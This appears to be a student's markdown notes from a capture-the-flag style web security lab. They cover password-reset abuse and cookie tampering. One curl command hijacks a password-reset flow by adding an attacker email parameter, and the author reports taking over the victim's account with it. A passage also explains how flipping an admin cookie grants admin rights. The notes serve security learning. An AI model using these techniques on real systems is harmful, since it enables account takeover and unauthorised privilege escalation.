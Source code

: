 now i ran this command 
```
username=jaf
curl 'http://10.10.252.240/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
email was sent to my created account, then changed his password there

### COOKIE TAMPERING 

Plain Text
The contents of some cookies can be in plain text, and it is obvious what they do. Take, for example, if these were the cookie set after a successful login:
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/

We see one cookie (logged_in), which appears to control whether the user is currently logged in or not, and another (admin), which controls whether the visitor has admin privileges. Using this logic, if we were to change the contents of the cookies and make a request we'll be able to change our privileges.

First, we'll start just by requesting the target page:

Here's an example scenario of modifying the cookie header and gaining access as an admin
![cookie_tamper](./media/5-cookie-tamper.png)


Hashing
Sometimes cookie values can look like a long string of random characters; these are called hashes which are an irreversible representation of the original text. Here are some examples that you may come across:

| Original String | Hash Method |                                                              Output                                                              |
|:---------------:|:-----------:|:--------------------------------------------------------------------------------------------------------------------------------:|
|        1        |     md5     |                                                 c4ca4238a0b923820dcc509a6f75849b                                                 |
|        1        |   sha-256   |                                 6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b                                 |
|        1        |   sha-512   | 4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a |
|        1        |     sha1    |                                             356a192b7913b04c54574d18c28d46e6395428ab                                             |

**ENCODING** is reversible
most common is base64
